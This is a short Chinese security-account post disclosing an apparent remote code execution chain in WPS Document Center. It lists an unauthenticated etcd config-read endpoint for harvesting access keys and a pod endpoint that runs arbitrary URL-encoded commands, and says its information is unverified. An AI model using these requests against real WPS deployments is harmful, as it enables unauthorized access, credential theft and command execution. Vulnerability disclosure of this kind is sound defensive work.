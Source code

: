 #  细节已披露：WPS文档中心和文档中台存在远程代码执行 RCE  
棉花糖糖糖  富贵安全   2025-07-18 00:23  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/1mtwZURvGTkCK3ZFyqYEyTwmaLo2YSMeibz3eeShkewiadS4oh0RBl1U7BTVeEscGQrEbjWKcQzGpJEFLwr4cFQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
![]( "")  
  
  
以下为互联网收集  
攻击链信息，本公众号不为信息真实性担保，  
自行验证真伪，请勿使用本文内容进行违法行为，使用本文内容进行非法渗透测试的一切责任由使用者承担。  
  
  
1.未授权访问  
```
/open/v6/api/etcd/operate?key=/config/storage&method=get
```  
  
2.获取AKSK后使用脚本添加kubelet 路由映射（需获取TOKEN）  
  
3.向对应POD发起通信  
后实现RCE  
```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 
```  
  
